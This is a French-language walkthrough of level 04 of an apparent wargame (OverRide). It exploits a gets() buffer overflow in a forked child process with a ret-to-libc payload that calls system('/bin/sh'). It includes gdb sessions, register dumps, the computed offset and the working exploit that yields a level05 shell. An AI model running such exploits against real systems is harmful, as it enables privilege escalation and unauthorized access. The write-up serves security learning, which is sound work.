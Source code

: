 # Level 04

```
python -c'print("a" * 156 + "\xd0\xae\xe6\xf7" + "----" + "\xec\x97\xf8\xf7")'
```

## Solution

Le programme effectue un fork(), puis utilise la fonction non sécurisée gets() dans le processus enfant, ce qui permet un débordement de tampon (buffer overflow) et potentiellement un segfault.

-   Lancez GDB sur le programme vulnérable. Configurez GDB pour suivre les processus enfants avec la commande suivante :
```
    gdb ./level04
    (gdb) set follow-fork-mode child
```
-   Lancez le programme pour qu'il demande une entrée (qui sera capturée par gets()). Utilisez un padding spécifique pour provoquer un débordement :

    bash
```
(gdb) run
Starting program: /home/users/level04/level04
[New process <pid>]
Give me some shellcode, k
```
Envoyez le padding suivant :
```
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
-   Après avoir envoyé le padding, un segfault se produit :
```
    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process <child_pid>]
    0x41326641 in ?? ()
```

Cela signifie que le pointeur d'instruction (EIP) a été corrompu et contient une partie du padding.

-   Vérifiez l'état des registres pour confirmer l'atteinte du EIP avec une partie du padding :
```
    (gdb) info register
    eax            0x0	0
    ecx            0xf7fd08c4	-134412092
    edx            0xffffd670	-10640
    ebx            0x41386541	1094214977
    esp            0xffffd710	0xffffd710
    ebp            0x31664130	0x31664130
    esi            0x0	0
    edi            0x66413965	1715550565
    eip            0x41326641	0x41326641
    eflags         0x10282	[ SF IF RF ]
    cs             0x23	35
    ss             0x2b	43
    ds             0x2b	43
    es             0x2b	43
    fs             0x0	0
    gs             0x63	99
```
    
Ici, le registre EIP contient 0x41326641, qui correspond à une partie du padding **(Aa2A)**.

-   Le fait que le registre EIP ait été corrompu indique qu'il est possible de rediriger le flux d'exécution du programme.
-   Utilisez cette vulnérabilité pour mettre en place une attaque ret-to-libc, en choisissant des adresses appropriées dans la mémoire pour appeler des fonctions telles que system() avec des arguments contrôlés (par exemple /bin/sh).

### Payload

```
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```

**41326641 -> Reverse = 41663241 -> to Ascii = Af2A -> Offset = 156**

```
level04@OverRide:~$ python -c'print("a" * 156 + "\xd0\xae\xe6\xf7" + "----" + "\xec\x97\xf8\xf7")' > /tmp/lvl4 
level04@OverRide:~$ cat /tmp/lvl4 - | ./level4
bash: ./level4: No such file or directory
level04@OverRide:~$ cat /tmp/lvl4 - | ./level04
Give me some shellcode, k
whoami
level05
```